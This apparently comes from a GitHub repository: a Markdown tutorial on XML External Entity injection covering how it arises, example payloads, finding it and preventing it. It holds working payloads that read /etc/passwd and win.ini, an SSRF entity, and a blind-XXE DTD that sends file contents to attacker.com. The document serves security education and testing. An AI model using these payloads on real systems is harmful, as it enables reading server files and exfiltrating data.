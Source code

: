 # XML External Entity (XXE) Injection

XML External Entity (XXE) injection is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server's filesystem, and to interact with any backend or external systems that the application itself can access.

## How it Occurs

XXE vulnerabilities arise because the XML specification contains a feature called "external entities," which are a type of custom XML entity whose definition is located outside of the DTD where they are declared. If an application accepts XML input and parses it without disabling external entity resolution, it can be vulnerable to XXE.

### Example

Consider a web application that accepts XML data from the user:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>123</productId>
</stockCheck>
```

An attacker can modify the XML to include an external entity that points to a local file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

When the application parses this XML, it will replace `&xxe;` with the content of the `/etc/passwd` file. If the application then displays the product ID in its response, the attacker will be able to see the contents of the file.

## Common Payloads

### Retrieving Files

*   **Linux:** `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
*   **Windows:** `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>`

### SSRF via XXE

XXE can be used to perform Server-Side Request Forgery (SSRF) attacks.

*   `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.service/endpoint"> ]>`

### Blind XXE

In some cases, the application does not return the results of the XXE attack in its response. This is known as blind XXE. An attacker can use out-of-band techniques to exfiltrate data.

*   **Exfiltrating data via a DTD:**
    1.  The attacker hosts a malicious DTD on a server they control.
    2.  The attacker sends an XXE payload that references the malicious DTD.
    3.  The application requests the malicious DTD.
    4.  The malicious DTD contains an entity that exfiltrates data from the vulnerable server.

    **Malicious DTD (e.g., `http://attacker.com/malicious.dtd`):**
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
    %eval;
    %exfiltrate;
    ```

    **XXE Payload:**
    ```xml
    <?xml version="1.0" ?>
    <!DOCTYPE foo [
        <!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd">
        %xxe;
    ]>
    <foo></foo>
    ```

## Finding XXE Vulnerabilities

*   Look for any functionality that accepts XML data. This can be in the body of a POST request, or in a file upload.
*   Check if the application is parsing XML. You can often tell by looking at the `Content-Type` header of the request (e.g., `application/xml`, `text/xml`).
*   Try sending a simple XXE payload to see if the application is vulnerable.

## Preventing XXE

The safest way to prevent XXE is to disable DTDs (Document Type Definitions) and external entities completely. This can usually be done in the configuration of the XML parser. If it is not possible to disable DTDs completely, then external entities and external DTDs should be disabled.

## Cheatsheet
https://cheatsheet.haax.fr/web-pentest/files-and-files-inclusions/xxe/

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<author>
  <name>ven</name>
  <origin>void</origin>
</author>
```